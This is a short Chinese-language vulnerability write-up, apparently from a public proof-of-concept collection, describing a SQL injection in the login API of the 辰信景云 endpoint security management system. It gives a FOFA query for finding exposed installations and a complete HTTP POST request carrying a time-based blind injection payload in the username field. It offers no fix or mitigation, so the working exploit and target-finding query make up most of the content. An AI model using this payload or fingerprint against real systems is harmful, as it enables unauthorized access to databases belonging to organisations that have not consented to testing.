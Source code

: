 # 辰信景云终端安全管理系统 login 存在SQL注入漏洞

# 一、漏洞简介
<font style="color:rgb(34, 34, 34);">辰信景云终端安全管理系统是辰信领创推出的新一代企业级反病毒安全防护软件， 为企业提供了一套专业可信赖的全方位终端安全解决方案。辰信景云终端安全管理系统 login 存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。</font>

# <font style="color:rgb(34, 34, 34);">二、影响版本</font>
+ <font style="color:rgb(34, 34, 34);">辰信景云终端安全管理系统</font>

# <font style="color:rgb(34, 34, 34);">三、资产测绘</font>
+ fofa`app="辰信领创-景云终端安全管理系统"`
+ 特征

![1706789257491-27df1e43-1efc-4ccb-8a8b-692fe60abd18.png](./img/EJ0iaJQbi88AjXxC/1706789257491-27df1e43-1efc-4ccb-8a8b-692fe60abd18-530366.png)

# 四、漏洞复习
```plain
POST /api/user/login HTTP/2
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.2) AppleWebKit/532.1 (KHTML, like Gecko) Chrome/41.0.887.0 Safari/532.1
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Type: application/x-www-form-urlencoded
Content-Length: 102

captcha=&password=21232f297a57a5a743894a0e4a801fc3&username=admin'and(select*from(select+sleep(5))a)='
```

![1706789300903-7f48eaf9-74bd-4d2f-97ee-dda7b81223fd.png](./img/EJ0iaJQbi88AjXxC/1706789300903-7f48eaf9-74bd-4d2f-97ee-dda7b81223fd-737141.png)



> 更新: 2024-02-29 23:57:11  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/mdnxgki42lxoaomn>